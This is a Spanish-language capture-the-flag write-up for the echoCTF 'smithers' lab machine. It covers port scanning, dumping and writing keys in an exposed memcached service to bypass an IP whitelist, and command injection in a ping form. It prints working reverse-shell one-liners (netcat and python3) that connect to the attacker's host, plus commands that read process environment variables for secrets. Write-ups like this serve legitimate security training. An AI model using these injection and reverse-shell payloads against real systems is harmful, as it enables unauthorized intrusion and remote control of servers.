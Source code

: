 # Estadísticas

| Característica | Descripción |
|---|---|
| Nombre | [smithers](https://echoctf.red/target/5) |
| Dificultad | Beginner |
| Banderas | 7 (5 other, env, root) |
| Puntos | 8,100 pts (other/1,500 pts, other/1,000 pts, other/1,000 pts, other/1,000 pts, other/1,000 pts, env/900 pts, root/1,500 pts) |
| Descripción / Pistas |  Like Smithers this server will serve you well only if you manage to enter it's memcached store. The memcache service you just discovered on smithers.echocity-f.com/10.0.160.142:11211 has a hidden flag. |

# Reconocimiento

## Escaneo de host

### Escaneo completo de puertos

```bash
❯ nmap -T5 -open -vvv --min-rate=5000 -p- -n -Pn -oG nmap/all_ports $BOX_TARGET
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times will be slower.
Starting Nmap 7.91 ( https://nmap.org ) at 2021-10-14 19:45 CDT
Initiating Connect Scan at 19:45
Scanning 10.0.100.142 [65535 ports]
Discovered open port 11211/tcp on 10.0.100.142
Discovered open port 10888/tcp on 10.0.100.142
Completed Connect Scan at 19:45, 21.90s elapsed (65535 total ports)
Nmap scan report for 10.0.100.142
Host is up, received user-set (0.14s latency).
Scanned at 2021-10-14 19:45:20 CDT for 22s
Not shown: 53830 closed ports, 11703 filtered ports
Reason: 53830 conn-refused and 11703 no-responses
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT      STATE SERVICE  REASON
10888/tcp open  unknown  syn-ack
11211/tcp open  memcache syn-ack

Read data files from: /usr/bin/../share/nmap
Nmap done: 1 IP address (1 host up) scanned in 22.00 seconds
```

### Escaneo específico

```bash
❯ nmap -sCV -p 11211,10888 -oN nmap/targeted $BOX_TARGET
Starting Nmap 7.91 ( https://nmap.org ) at 2021-10-14 19:46 CDT
Nmap scan report for 10.0.100.142
Host is up (0.14s latency).

PORT      STATE SERVICE   VERSION
10888/tcp open  http      nginx
|_http-title: Network Tools
11211/tcp open  memcached Memcached 1.5.12 (uptime 36084 seconds)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 15.60 seconds
```

# Enumeración

## Servicios

### http - 10888

#### Manual

Al navegar al sitio se visualiza algún tipo de servicio que pone a disposición utilidades de red, pero de acuerdo con el mensaje que se arroja se puede suponer que para tener acceso se requiere estar en algún tipo de lista blanca que se encuentra configurada en el servidor. Tratando de hacer un bypass básico a esta validación se decidió jugar un poco con cabeceras como [X-Forwarded-For](https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/X-Forwarded-For) entre otras, para ver si la respuesta por parte del servidor cambiaba de algún modo, sin éxito aparente.

![enum_1](./images/enum_1.png)

### memcached - 11211

#### Manual

Siendo permitida la conexión directa mal socket mediante `netcat` se permite la obtención de datos existentes en el servidor mediante comandos propios de `memcached`, datos como versión, estatus, slabs, items, entre otros.

**Comandos útiles**

*Después de entablar la conexión*

```bash
version # Obtener versión
stats # Obtener estatus
stats slabs # Obtener slabs
stats items # Obtener items de slabs con información
stats cachedump <numero_de_item> 0 # Obtener nombres de llaves (0 es para no limitar el tamaño del output)
get <nombre_de_item> # Obtener información guardada de item
```

*Referencia: https://book.hacktricks.xyz/pentesting/11211-memcache*

![enum_2](./images/enum_2.png)

Recalcando que para la obtención del `número de item` se puede extraer de la columna señalada del output generado por la obtención de los items.

# Explotación

Habiendo encontrado que se puede exfiltrar información mediante la interacción con el servicio de `memcached` faltaría validar si también se puede configurar información en el servicio.

## Abuso de escritura de items en `memcached`

### Pasos previos | Preparación

Dentro de la enumeración se encontró que la versión de `memcached` y la información contenida al navegar al sitio expuesto coincidía por lo que bajo la suposición de que estos dos interactuan entre sí y de no haber encontrado el item `REMOTE_ADDR` como lo indica el sitio web se puede intentar guardando este item con el valor de la IP correspondiente.

**Sintaxis**

```bash
set key flags exptime bytes
value 
```

**Uso**

```bash
set REMOTE_ADDR 0 2592000 4
test
```

*Referencia: https://www.tutorialspoint.com/memcached/memcached_set_data.htm*

Al tener problemas de interacción directa para configurar los valores se encontraron otras alternativas funcionales.

#### Método 1

**Comando**

`echo -e 'set REMOTE_ADDR 0 2592000 4\r\ntest\r' | nc -nv -w 1 10.0.100.142 11211`

![exploit_1](./images/exploit_1.png)

1. Ejecución.
2. Validación de existencia (cuando antes no se desplegaba el item 1).
3. Obtención de valor de valor.

#### Método 2

El paquete `libmemcached-tools` cuenta con utilidades para interactuar con conexiones de `memcached`. Haciendo uso de `memccp` se puede copiar un valor pasando como parámetro el archivo con el valor que se piensa ocupar y haciendo uso de `memcat` para la visualización de los valores de los items.

```bash
sudo apt install libmemcached-tools
echo -n "test2" > REMOTE_ADDR
memccp --servers=10.0.100.142 REMOTE_ADDR
memccat --servers=10.0.100.142 REMOTE_ADDR
```

![exploit_2](./images/exploit_2.png)

*Referencia: https://www.hackingarticles.in/penetration-testing-on-memcached-server/*

### Ejecución

Configurando la variable que concuerda con ambos servicios y añadiendo la asignada por la vpn el output de la página resulta diferente.

![exploit_3](./images/exploit_3.png)

A partir de este punto se puede observar que se habilita un formulario para realizar un ping a un host, lo que a nivel de código se puede reducir en algo como:

```php
$ip = "valor proporcionado por formulario"
system('ping ' . $ip);
```

Lo que al final se reduciría en ejecución remota de comandos, ya que en consola podemos usar "separadores" para ejecutar múltiples comandos en una misma instrucción, lo que a nivel de código se ejemplificaría en `ping 127.0.0.1; whoami`.

![exploit_4](./images/exploit_4.png)

Al ver el servicio lo ejecuta directamente `root`, al obtener una reverse shell, no se requiriría proceso de escalación de privilegios.

Al realizar la prueba para obtener una reverse shell con netcat usando `;nc -e /bin/bash 10.10.0.26 1234` no se ejecutó satisfactoriamente por lo que se optó intentar con diferentes alcances, siendo `python3` el funcional (`;python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.0.26",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("sh")'`).

![exploit_5](./images/exploit_5.png)

# Ubicación de banderas

1. Llave - valor de `memcached`.
2. `/var/lib/nginx/html/network-tools.php` x 3.
3. `/`
4. Extrayendo las variables de entorno de los procesos en ejecución con `strings /proc/*/environ | grep ETSCTF`.
5. `/root`.